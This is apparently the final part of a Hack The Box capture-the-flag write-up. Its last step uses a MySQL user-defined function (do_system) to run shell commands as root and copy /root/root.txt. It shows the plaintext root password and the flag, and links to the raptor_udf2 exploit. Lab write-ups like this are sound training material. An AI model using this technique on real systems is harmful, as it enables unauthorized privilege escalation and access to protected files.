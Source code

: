 And use it:

```shell
mysql -u'root' -p'Nildogg36' \
    -e'select do_system("cat /root/root.txt > /tmp/flag.txt; chown svc:svc /tmp/flag.txt");'
cat /tmp/flag.txt
# 713679aa17b79d7e610ac9e8791989ad
```

[author-profile]: https://app.hackthebox.com/users/389926
[dashboard]: images/dashboard.png
[hacktricks]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask#flask-unsign
[leak]: images/leak.png
[mysql-udf]: https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
[raptor-udf2]: https://www.exploit-db.com/exploits/1518

